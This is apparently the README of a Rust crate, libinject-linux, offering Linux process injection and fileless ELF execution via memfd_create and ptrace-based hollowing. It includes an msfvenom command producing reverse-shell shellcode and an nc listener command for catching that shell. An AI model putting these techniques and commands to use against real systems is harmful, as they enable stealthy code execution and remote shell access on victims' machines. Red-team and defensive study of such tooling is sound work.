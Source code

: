 # libinject-linux

`libinject-linux` is a Rust crate containing implementations for process injection and fileless ELF execution techniques on Linux.

## Functionality
The following techniques are currently implemented:
- Using [memfd_create(2)](https://man7.org/linux/man-pages/man2/memfd_create.2.html) to create an anonymous file in memory, write an ELF to it, and then execute.
- Using [ptrace(2)](https://man7.org/linux/man-pages/man2/ptrace.2.html) to stop a forked process, overwrite its RIP register with shellcode, and then resume it.

## Library Usage
Add `libinject-linux` as a dependency to your Rust project
```bash
cargo add --git https://github.com/dustyw0lf/libinject-linux.git
```

## Library Examples
>[!note]
>The examples can take binaries or shellcode from either URLs or filesystem paths.

Clone the repo
```bash
git clone https://github.com/dustyw0lf/libinject-linux.git
```

Change directory into `libinject-linux`
```bash
cd libinject-linux
```

### memfd
Run the example
```bash
cargo run --example memfd
```

### hollow
Use your own shellcode or the provided example
```bash
msfvenom --payload 'linux/x64/shell_reverse_tcp' LHOST=127.0.0.1 LPORT=1234 --format 'raw' --platform 'linux' --arch 'x64' --out shellcode.bin
```

Start a listener
```bash
nc -lvnp 1234
```

Run the example
```bash
cargo run --example hollow
```